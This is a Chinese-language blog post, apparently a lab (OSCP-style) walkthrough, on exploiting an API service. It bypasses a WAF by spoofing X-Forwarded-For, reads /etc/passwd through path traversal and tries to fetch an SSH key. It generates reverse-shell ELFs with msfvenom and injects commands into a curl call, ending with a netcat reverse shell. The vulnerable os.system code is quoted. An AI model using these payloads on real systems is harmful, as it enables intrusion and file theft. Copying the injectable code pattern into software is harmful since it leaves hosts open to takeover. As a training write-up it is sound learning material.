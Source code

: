 #  API接口文件包含+命令执行   
原创 道玄安全  道玄网安驿站   2024-09-15 11:20  
  
**“**  
 API接口测试**”**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPA9bic9zzTydWv4XTTHH2NAiamMp8Kxsh4s2lukPuyuwnia3NiaHkiaU8a3JGFhLvNnYvtLvHTFAd91Rw/640?wx_fmt=png&from=appmsg "")  
  
      
看到了，**关注一下**  
不吃亏啊，点个赞转发一下啦，WP看不下去的，可以B站搜：**标松君**  
，UP主录的打靶视频，欢迎关注。顺便宣传一下星球：**重生者安全，**  
 里面每天会不定期更新**OSCP**  
知识点，**车联网**  
，**渗透红队**  
以及**漏洞挖掘工具**  
等信息分享，欢迎加入；以及想挖**SRC逻辑漏洞**  
的朋友，可以私聊。  
  
  
  
  
  
01  
  
—  
  
  
  
API接口  
  
  
    这次遇到API接口测试的靶机，很有启发性！  
首先扫描端口，发现靶机开了22，13337端口，访问13337端口是，发现是一个api管理页面：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPbDKWLibrSLD5YWWU1zINiaten9O8d4ox58zyxPo6dWibKfkbbskbF5kvZj21ZqCnMibvrRfglSibHypg/640?wx_fmt=png&from=appmsg "")  
  
根据提示，我可以用GET的方式访问/logs目录：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPbDKWLibrSLD5YWWU1zINiatehxCwbqHJJ3l66Q1dpgP5ZXEfXWRmRjYUUNHH7bRYSEfeO06uRaoRg/640?wx_fmt=png&from=appmsg "")  
  
但是有WAF，尝试添加XFF头绕过，发现成功回显：  
```
X-Forwarded-For:127.0.0.1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPbDKWLibrSLD5YWWU1zINiatyYTPlGbgPAv1HIoBne6L5faZBPlr4eZFsCtGVvu8ptgyw7589rMQYQ/640?wx_fmt=png&from=appmsg "")  
```
Error! No file specified. Use file=/path/to/log/file to access log files
```  
  
根据回显的报错，  
猜测有文件包含漏洞，构造数据包：  
```
GET /logs?file=../../../../../../etc/passwd HTTP/1.1
Host: ip:13337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
X-Forwarded-For:127.0.0.1
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```  
  
成功回显：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPbDKWLibrSLD5YWWU1zINiatsPzSGmUia909IJQZEicmQKBP5UibNbiarYtTlgOWibDp5BQ7ibYJQ49ib8Z9Q/640?wx_fmt=png&from=appmsg "")  
  
成功查看到了/etc/passwd，发现一个可登录的用户，看看有没有ssh私钥：  
```
../../../../../../home/clumsyadmin/.ssh/id_rsa
```  
  
没有成功，回到首页，根据/update的提示：  
```
/update
Methods: POST
Updates the app using a linux executable. Content-Type: application/json {"user":"<user requesting the update>", "url":"<url of the update to download>"}
```  
  
可以使用clumsyadmin用户上传一个elf的反弹shell，然后使用/restart接口重启app  
  
构造一下包：  
```
POST /update HTTP/1.1
Host: ip:13337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 64

{"user":"clumsyadmin", "url":"<url of the update to download>"}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPbDKWLibrSLD5YWWU1zINiataa3Jp5Yib299tSzKy7FcjKvFwUG5DA1rhOdyL02gicfJKfYGiaJq9auTw/640?wx_fmt=png&from=appmsg "")  
  
回显了我们的用户名，那就尝试看看URL的参数能不能加载外链：  
```
{"user":"clumsyadmin", "url":"http://kali_ip/test"} 
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPbDKWLibrSLD5YWWU1zINiat8CtP7XBFA72EQ1jEPHfeTTjsiby6Z7I06YIeVkzMCAATwQW86TpX93w/640?wx_fmt=png&from=appmsg "")  
  
发现可以，那就生成x86和x64的elf文件(因为不知道靶机是什么系统)，上传上去重启APP看看能不能反弹回来：  
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=ip LPORT=80 -f elf > x86.elf

msfvenom -p linux/x64/shell_reverse_tcp LHOST=ip LPORT=80 -f elf > x64.elf
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPbDKWLibrSLD5YWWU1zINiatcOAdpC23zRPf8fXuh4tlCdXrC50qgVIMyuXHx7EibtXod4BwyIVPfJw/640?wx_fmt=png&from=appmsg "")  
  
尝试重启APP，但是无论是x86还是x64的都没有成功反弹，回到文件包含的部分，尝试更多的信息收集，  
由于是app，flask和django框架都有app，包含main.py文件发现了源码：  
```
GET /logs?file=main.py HTTP/1.1
Host: ip:13337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
X-Forwarded-For:127.0.0.1
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```  
  
重点观察更新这个函数：  
```
@app.route('/update', methods = ["POST"])
def update():
    if request.headers['Content-Type'] != "application/json":
        return("Invalid content type.")
    else:
        data = json.loads(request.data)
        if data['user'] != "clumsyadmin":
            return("Invalid username.")
        else:
            os.system("curl {} -o /home/clumsyadmin/app".format(data['url']))
            return("Update requested by {}. Restart the software for changes to take
```  
  
发现在使用clumsyadmin用户后，会跳到os.system函数，并且使用了curl这个函数，整个命令执行的语句我们可以控制url的参数，可以尝试参数做命令执行  
```
os.system("curl {} -o /home/clumsyadmin/app".format(data['url']))
```  
  
使用tcpdump嗅探icmp包：  
```
tcpdump -i tun0 icmp
```  
  
注入命令：  
```
POST请求体：
{"user":"clumsyadmin", "url":"http://192.168.x.x/test;ping -c 5 kali_ip;"}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPbDKWLibrSLD5YWWU1zINiaticmpsf3Fgb9O9Kd94jrXxo3emSqzADOGWqM3ibIGAZI7psajLzxeibpsA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPbDKWLibrSLD5YWWU1zINiatHSDLJdxmse5IFUjZF01WmtxafKMEbgjTCp5Ctw8CJ5UUmZrSDBsDvg/640?wx_fmt=png&from=appmsg "")  
  
发现可以成功命令执行！  
  
那就尝试反弹shell：  
```
POST请求体：
{"user":"clumsyadmin", "url":"http://192.168.x.x/test;busybox nc kali_ip 13337 -e sh;"}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPbDKWLibrSLD5YWWU1zINiatuiaPSIDmvgp2U0KPr1vM9BdHuvEI2h93yNiazPmhVfuyxRnTepibhI0QA/640?wx_fmt=png&from=appmsg "")  
  
成功突破边界！  
  
  
  
  
**更多精彩内容请扫码关注“重生者安全”星球**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPA9bic9zzTydWv4XTTHH2NAeuqcZvqTz0LHiadOuGVcHz49J7Wl5mAkug4yC75PbuErvyuib90R9l8g/640?wx_fmt=png&from=appmsg "")  
  
****  
免责声明：  
### 本人所有文章均为技术分享，均用于防御为目的的记录，所有操作均在实验环境下进行，请勿用于其他用途，否则后果自负。  
  
第二十七条：任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序和工具；明知他人从事危害网络安全的活动，不得为其提供技术支持、广告推广、支付结算等帮助  
  
第十二条：  国家保护公民、法人和其他组织依法使用网络的权利，促进网络接入普及，提升网络服务水平，为社会提供安全、便利的网络服务，保障网络信息依法有序自由流动。  
  
任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益，煽动颠覆国家政权、推翻社会主义制度，煽动分裂国家、破坏国家统一，宣扬恐怖主义、极端主义，宣扬民族仇恨、民族歧视，传播暴力、淫秽色情信息，编造、传播虚假信息扰乱经济秩序和社会秩序，以及侵害他人名誉、隐私、知识产权和其他合法权益等活动。  
  
第十三条：  国家支持研究开发有利于未成年人健康成长的网络产品和服务，依法惩治利用网络从事危害未成年人身心健康的活动，为未成年人提供安全、健康的网络环境。  
  
  
  
  
  
